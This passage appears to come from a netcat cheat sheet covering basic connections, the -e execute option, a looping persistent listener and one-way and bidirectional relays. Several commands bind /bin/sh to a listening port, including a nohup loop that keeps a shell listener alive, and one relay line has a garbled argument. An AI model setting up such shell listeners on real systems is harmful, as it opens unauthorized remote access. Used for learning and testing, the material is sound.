 ```
$ nc <TARGET_IP> <PORT>
```

- `-e`: Execute the specified program with STDIN given through connection and output STDOUT throguh connection 

#### Persistent Listening

Since `-l` only listens once, so it does not reconnect when an existing connection is dropped (In windows version, `-L` does this).

```
$ cat listener.sh
while [ 1 ]; do echo "Started"; nc -l -p port -e /bin/sh; done
$ nohup ./listener.sh &
```

#### Relay

**Oneway**

```
REQ: A --> B --> C
RES:       | <--
```

Commands on each host

```
[A]$ nc <B_IP> <B_PORT>
```

```
[B]$ nc -l -p <B_PORT> | nc <C_IP> <C_PORT> 
```

```
[C]$ nc -l -p <C_PORT> -e /bin/sh
```

**Bidirectional**

```
REQ: A --> B --> C
RES:   <--   <--
```

Commands

```
[A]$ nc <B_IP> <B_PORT>
```

```
[B]$ mkfifo <FILENAME> (FIFO (First in, First Out) file)
[B]$ nc -l -p <B_PORT> < <FILENAME> | nc <C_PORT> <C_PORT> > <FILENAME>
```

```
[C]$ nc -l -p <C_PORT>
```

